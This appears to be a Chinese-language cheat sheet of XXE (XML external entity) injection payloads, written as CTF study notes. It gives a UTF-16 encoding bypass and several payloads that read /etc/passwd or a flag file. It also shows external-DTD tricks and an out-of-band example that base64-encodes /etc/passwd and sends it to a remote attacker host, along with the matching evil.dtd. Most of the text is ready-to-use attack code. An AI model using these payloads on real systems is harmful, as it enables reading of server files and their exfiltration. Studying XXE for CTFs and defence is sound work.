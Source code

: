 [[toc]]
# XXE/XML实体注入

绕过 -- XXE编码转换成utf-16编码绕过
    `iconv -f utf8 -t utf-16 2.xml>1.xml`
了解 https://blog.csdn.net/weixin_39997829/article/details/79654861
    抓包看是否解析了xml内容, 如果可控。可能存在xxe

## 格式
```xml
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL">
```

下面的xxe要和上面的对应
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<user><username>&xxe;</username><password>a</password></user>
```
## 引入代码1
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "file:///flag">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```
注意上admin前有&

## 引入代码2
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
  <!ENTITY admin SYSTEM "http://10.164.75.2">
  ]>
<user><username>&admin;</username><password>123456</password></user>
```

## 引入代码3
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://10.164.75.2/evil.dtd">
]>
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

## 引入代码3-1

```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://10.164.75.2/evil.dtd">
<c>&b;<c>
```
evil.dtd内容
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
## 引入代码4 - 数据不回显时,发送到远程服务器
```php
<?php
$xml=EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://192.168.1.122/evil.dtd">
%dtd;
%send;
]>
EOF;
$data = simplexml_load_string($xml);
#print_r($data);
```
远程 evil.dtd
```text
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://192.168.1.122/?%file;'>"
>
%all;
```
## 实例

https://www.hetianlab.com/cour.do?w=1&c=CCID2d51-5e95-4c58-8fc9-13b1659c1356

buuoj [NCTF2019]Fake XML cookbook

buuoj [NCTF2019]True XML cookbook